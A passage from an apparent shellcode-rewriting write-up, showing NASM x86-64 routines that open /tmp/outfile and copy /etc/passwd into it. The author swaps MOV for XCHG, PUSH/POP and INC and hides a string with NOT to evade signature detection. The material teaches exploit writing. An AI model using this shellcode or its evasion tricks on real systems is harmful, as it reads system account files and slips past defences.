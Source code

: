 ```nasm
    ; push the string "/tmp/outfile" to the stack
    push DWORD 0x656c6966
    mov rcx, 0x8b8a90d08f928bd0
    not rcx
    push rcx

    ; clear RSI
    push rax
    pop rsi
    
    ; set RAX to 2 (syscall open)
    add al, 2

    ; 1st argument of open: pointer to the file
    ; to open (/tmp/outfile)
    mov rdi, rsp
    
    ; 2nd argument of open: flags to use when
    ; opening the file
    ; in this case: O_RDWR|O_CREAT|0x24
    push 0x66
    pop si

    ; invoke syscall open
    syscall
```

<figcaption class="figure-caption">Creating a new temporary file</figcaption>

### Writing to file

The last routing writes the contents of `/etc/passwd` to the file `/tmp/outfile`.

Compared to the original shellcode, I didn't use a single `MOV` instruction, preferring instead the instructions `XCHG`, `PUSH`, and `POP`.

To place the value 1 into the register `RAX`, rather than using `MOV` I chose `INC`.

```nasm
WriteTempFile:

    ; 1st argument of syscall write: file
    ; descriptor of the file in which to write
    xchg rdi, rax

    ; set RAX to 1 (syscall write)
    xor eax, eax
    inc eax

    ; 2nd argument of write: pointer to the
    ; buffer containing the bytes to write
    push r8
    pop rsi

    ; 3rd argument of write: number of bytes
    ; to write
    push rbx
    pop rdx

    ; invoke syscall write
    syscall
```
